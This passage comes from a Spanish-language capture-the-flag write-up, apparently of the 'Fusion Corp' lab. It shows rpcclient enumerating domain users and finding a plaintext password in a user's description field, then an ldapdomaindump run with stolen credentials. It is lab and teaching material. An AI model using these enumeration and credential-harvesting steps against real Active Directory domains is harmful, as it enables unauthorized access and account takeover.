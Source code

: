          Permite que los programas en una computadora hagan llamadas a procedimientos ubicados en otras computadoras,
         como si estuvieran llamando a funciones o métodos locales.
   
   INFO: rpcclient enumeration [+] https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-smb/rpcclient-enumeration

   -Enumeramos usuario del sistema y obtenemos informacion del usuario jmurphy.
   
        ┌┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
        └─# rpcclient fusion.corp -U "fusion.corp/lparker" --password='!!abbylvzsvs2k6!'       
        rpcclient $> enumdomusers
        user:[Administrator] rid:[0x1f4]
        user:[Guest] rid:[0x1f5]
        user:[krbtgt] rid:[0x1f6]
        user:[lparker] rid:[0x44f]
        user:[jmurphy] rid:[0x450]
        rpcclient $> queryuser 0x450
                User Name   :   jmurphy
                Full Name   :   Joseph Murphy
                Home Drive  :
                Dir Drive   :
                Profile Path:
                Logon Script:
                Description :   Password set to u8WC3!kLsgw=#bRY
                Workstations:
                Comment     :
       [...]

    Encontamos credenciales del usuario jmurphy:u8WC3!kLsgw=#bRY

2) LDAP
   
       INFO:
         LDAP (Protocolo Ligero de Acceso a Directorios, por sus siglas en inglés) es un protocolo estándar de acceso
         y mantenimiento de servicios de directorio. Un servicio de directorio es una base de datos que almacena información
         de manera jerárquica y se utiliza para gestionar información de recursos compartidos, como usuarios, grupos,
         impresoras, servidores y otros objetos de red en una organización. LDAP se utiliza comúnmente para buscar, recuperar,
         modificar y autenticar información en un directorio.
         LDAP se utiliza en una amplia variedad de aplicaciones y servicios, como servidores de directorio Microsoft Active Directory.
   
   INFO: [+] https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-ldap
   
   -Obtenemos toda la informacion sobre el administrador de dominio

        ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
        └─# ldapdomaindump fusion.corp -u 'fusion.corp\lparker' -p '!!abbylvzsvs2k6!' --no-json --no-grep -o ldap/
        [*] Connecting to host...
        [*] Binding to host
        [+] Bind OK
        [*] Starting domain dump
        [+] Domain dump finished
